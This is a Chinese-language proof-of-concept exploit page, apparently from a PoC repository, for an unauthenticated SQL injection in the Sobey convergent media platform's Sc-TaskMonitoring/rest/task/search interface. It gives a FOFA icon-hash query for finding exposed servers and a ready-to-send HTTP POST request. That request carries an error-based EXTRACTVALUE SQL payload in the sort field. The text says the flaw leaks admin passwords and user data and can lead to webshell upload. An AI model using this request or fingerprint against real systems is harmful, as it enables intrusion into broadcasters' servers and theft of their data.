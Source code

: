 # 索贝融媒体search存在SQL注入漏洞

索贝融媒体产品是成都索贝数码科技股份有限公司（简称索贝）为各级电视台和媒体机构打造的一套集互联网和电视融合生产的解决方案。索贝融媒体 Sc-TaskMonitoring/rest/task/search 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
icon_hash="689611853"
```

## poc

```javascript
POST /Sc-TaskMonitoring/rest/task/search HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/json
Cookie: token=5ab95532238da1b7d9eb20de7ecef90e; siteCode=S1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"page":1,"search":{"assignedCodes":""},"size":10,"date":{},"sort":{"field":"1 AND EXTRACTVALUE(8342,CONCAT(0x7e,0x7171787171,(SELECT (ELT(8342=8342,1))),0x716b706b71,0x7e))","desc":true}}
```

![image-20241122150816351](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221508580.png)